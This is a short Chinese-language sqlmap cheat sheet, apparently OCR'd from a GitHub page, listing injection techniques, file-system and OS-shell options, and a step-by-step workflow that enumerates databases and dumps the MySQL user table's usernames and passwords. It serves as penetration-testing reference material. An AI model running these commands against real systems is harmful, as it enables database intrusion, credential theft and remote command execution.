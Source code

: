 ###### 注入方式

```sql
--technique=     		#（默认全部使用）

B       				# 基于布尔的盲注

T       				# 基于时间的盲注
	--time-sec         #基于时间注入检测相应的延迟时间（默认为5秒）

E       				# 基于报错的注入

U       				# 基于UNION查询注入

S       				# 基于多语句查询注入
```

###### 访问文件系统

##### 

```sql
--file-read             # 从目标数据库管理文件系统读取文件

--file-write            # 上传文件到目标数据库管理文件系统

--file-dest             # 指定写入文件的绝对路径

--os-cmd=               # 执行操作系统命令

--os-shell              # 交互式的系统shell
```

###### **注入流程**

```sql
#获取旗标信息
sqlmap -u url --banner --batch
#判断有哪些数据库
sqlmap -u url --dbs --batch
#获取表名
sqlmap -u ur1 -D mysql --tables --batch
# 获取字段
sqlmap -u url -D mysql -T user --columns --batch
# 获取字段值
sqlmap -u ur1 -D mysql -T user -C User,password --dump --batch

--technique=TEU
```

###### 常用选项

```shell
--threads n		# 设置注入的线程数（最大为10）
--time-sec s	# 设置盲注sleep（s）
```
